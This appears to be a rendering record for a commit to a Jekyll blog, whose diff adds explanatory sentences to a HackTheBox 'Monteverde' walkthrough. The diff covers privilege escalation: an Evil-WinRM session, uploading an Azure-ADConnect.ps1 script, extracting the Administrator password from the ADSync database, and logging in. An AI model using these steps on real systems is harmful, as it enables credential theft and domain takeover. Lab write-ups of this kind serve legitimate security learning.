

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2020-07-05-Hackthebox-Monteverde-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 8977 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
WIP monteverde-walkthrough

````diff
--- a/_posts/2020-07-05-Hackthebox-Monteverde-Walkthrough.md
+++ b/_posts/2020-07-05-Hackthebox-Monteverde-Walkthrough.md
@@ -231,7 +231,8 @@ Info: Establishing connection to remote endpoint
 ```
 
 ## 3. Getting Root
-
+As always, check the privilege of the user `mhope`.<br>
+This time, the important thing is the user `mhope` is in a group `Azure Admins`.
 ```shell
 *Evil-WinRM* PS C:\Users\mhope\Documents> whoami /all
 
@@ -278,6 +279,7 @@ User claims unknown.
 Kerberos support for Dynamic Access Control on this device has been disabled.
 ```
 
+
 ```shell
 *Evil-WinRM* PS C:\Program Files> ls
 
@@ -314,7 +316,7 @@ d-----         1/3/2020   5:28 AM                WindowsPowerShell
 *Evil-WinRM* PS C:\Program Files>
 ```
 
-#### On the local host
+On the local host, clone `PsCabesha-tools` repository.
 ```shell
 root@kali:~# git clone https://github.com/Hackplayers/PsCabesha-tools.git
 Cloning into 'PsCabesha-tools'...
@@ -326,6 +328,7 @@ Receiving objects: 100% (134/134), 553.60 KiB | 882.00 KiB/s, done.
 Resolving deltas: 100% (65/65), done.
 ```
 
+Upload the `/Privesc/Azure-ADConnect.ps1` in the repository.
 ```shell
 *Evil-WinRM* PS C:\Users\mhope\Documents> upload /root/PsCabesha-tools/Privesc/Azure-ADConnect.ps1
 Info: Uploading /root/PsCabesha-tools/Privesc/Azure-ADConnect.ps1 to C:\Users\mhope\Documents\Azure-ADConnect.ps1
@@ -347,6 +350,7 @@ Mode                LastWriteTime         Length Name
 
 ```
 
+Import the module and execute. We can achieve a password for the user `administrator`.
 ```shell
 *Evil-WinRM* PS C:\Users\mhope\Documents> import-module ./Azure-ADConnect.ps1
 *Evil-WinRM* PS C:\Users\mhope\Documents> Azure-ADConnect -server 127.0.0.1 -db ADSync
@@ -355,6 +359,8 @@ Mode                LastWriteTime         Length Name
 [+]Password: d0m@in4dminyeah!
 ```
 
+We can use this credential for login as `Administrator`.<br>
+`root.txt` is in the directory `C:\Users\Administrator\Desktop`.
 ```shell
 root@kali:~/evil-winrm# ./evil-winrm.rb -i 10.10.10.172 -u administrator -p d0m@in4dminyeah!
 
````
